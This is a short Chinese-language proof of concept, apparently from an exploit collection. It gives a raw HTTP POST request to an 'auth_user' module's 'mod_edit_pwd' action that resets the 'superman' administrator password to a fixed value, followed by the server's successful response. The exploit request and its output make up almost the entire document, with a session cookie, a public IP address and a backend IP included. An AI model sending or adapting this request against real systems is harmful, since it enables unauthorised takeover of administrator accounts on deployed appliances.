 superman密码会被重置为:`Tftp@dlp108`
poc:

```
POST /?module=auth_user&action=mod_edit_pwd HTTP/1.1
Host: xxxx
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://120.27.184.164
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://120.27.184.164/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=161oin4qirp7is4kegt6muaug0; winNum=0;username=superman;ildetime=0;timelogout=1597672019

uid=1&pd=Tftp@dlp108&mod_pwd=1&dlp_perm=1
```

响应包：

```
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 17 Aug 2020 13:27:39 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 1
Connection: close
X-Powered-By: PHP/5.6.28
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: timeout=1800
Set-Cookie: timelogout=1597672805
Set-Cookie: ildetime=0
backendIP: 10.80.93.180:443
backendCode: 200

1
```

